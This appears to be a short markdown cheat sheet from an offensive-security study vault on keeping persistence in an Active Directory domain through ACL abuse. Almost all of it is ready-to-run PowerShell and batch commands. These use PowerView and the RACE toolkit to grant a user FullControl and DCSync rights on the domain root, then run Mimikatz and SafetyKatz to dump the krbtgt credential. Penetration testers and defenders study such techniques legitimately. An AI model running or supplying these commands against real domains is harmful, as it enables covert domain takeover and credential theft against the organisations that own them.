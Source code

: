 ```yaml
---
tags:
  - persistence
cssclasses:
  - persistence-using-ACLs
  - RACE-toolkit
  - PowerView
  - MimiKatz
aliases:
---
```

This is a persistence mechanism, so it is assumed you have gained high privileges such as Domain Admin.
#### Add FullControl rights

```powershell title:"Add FullControl rights (PowerView)"
Add-DomainObjectAcl -TargetIdentity 'DC=domain,DC=name' -PrincipalIdentity username -Rights All -PrincipalDomain domain.name -TargetDomain domain.name -Verbose
```

```powershell title:"Add FullControl rights (ActiveDirectory Module and RACE)"
Set-ADACL -SamAccountName username -DistinguishedName 'DC=domain,DC=name' -Right GenericAll -Verbose
```

#### Add rights for DCSync

```powershell title:"Add rights for DCSync (PowerView)"
Add-DomainObjectAcl -TargetIdentity 'DC=domain,DC=name' -PrincipalIdentity username -Rights DCSync -PrincipalDomain domain.name -TargetDomain domain.name -Verbose
```

```powershell title:"Add rights for DCSync (ActiveDirectory module and RACE)"
Set-ADACL -SamAccountName username -DistinguishedName 'DC=domain,DC=name' -GUIDRight DCsync -Verbose
```

#### Execute DCSync

```powershell title:"Execute DCSync"
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
```
```batch
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
```

